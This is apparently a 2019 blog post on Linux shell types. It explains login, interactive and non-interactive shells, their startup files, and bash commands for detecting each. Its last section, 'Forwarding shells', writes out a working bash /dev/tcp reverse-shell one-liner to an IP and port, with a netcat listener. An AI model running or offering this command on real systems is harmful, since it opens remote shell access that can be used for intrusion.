 ```yaml
---
layout:     post
title:      interactive and non-interactive, login
date:       2019-01-30
author:     Sandip
summary:    interactive, non-interactive, login
categories: linux
thumbnail:  linux 
comment: true
tags:
     -  interactive
     - non-interactive
     - login
     
---
```

### Different shell types: interactive, non-interactive, login

#### Shells
Shells control how you interact with your computer systems. I always switch between the Bourne shell (sh), Korn shell (ksh) and Bourne-Again shell (bash) but there are numerous others.

There are three types of shells
a login shell;
an interactive shell;
a non-interactive shell.

The type of shell defines what set of features you can use. Choosing the type of shell is important to achieve your goal(s).

### A login shell
A login shell is the shell that is run when you log in to a system, either via the terminal or via SSH.

Why is this important? If you run a login shell it executes a number of files on startup. This can influence how your system behaves and you have to put your environment variables in these files. The files that are run are

.profile
.bash_profile
.bash_login

### An interactive shell
An interactive shell is when you type in the name of the shell after you have logged in to the system. For example

1.	bash
will start an interactive bash shell.

An interactive (bash) shell executes the file .bashrc so you have to put any relevant variables or settings in this file.

### A non-interactive shell
A non-interactive shell is a shell that can not interact with the user. It’s most often run from a script or similar. This means that .bashrc and .profile are not executed. It is important to note that this often influences your PATH variable. It is always a good practice to use the full path for a command but even more so in non-interactive shells.

Detect the type of shell, BASH only

You can detect if you are in an interactive or non-interactive shell with
```
1 .[[ $- == *i* ]] && echo 'Interactive' || echo 'not-interactive'
```
To detect if you are in a login shell or not you have to use the shopt command.
```
1 . shopt -q login_shell && echo 'login' || echo 'not-login'
```
or do
```
1 . shopt | grep login_shell
```
The shopt command allows you to change additional shell optional behavior.

Forwarding shells
One of the most interesting things that you can do with a shell is to forward it to another host. You will need nc or netcat on the host to which you forward the shell.

On the host with the shell you have to issue the command
```
1. bash -i >& /dev/tcp/192.168.218.1/9999 0>&1
```
The address 192.168.218.1 is the host to which you want to forward the shell. After the IP (note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving) you have to put the port number (9999) on which the netcat listener will listen.
You have to start the netcat listener on the other side. Double check that there are no firewall rules preventing you from accepting connections.
```
1 . nc -l 9999
```
Some versions of netcat require you to add -p before the port number. If all goes well you should get the shell on the listening host.

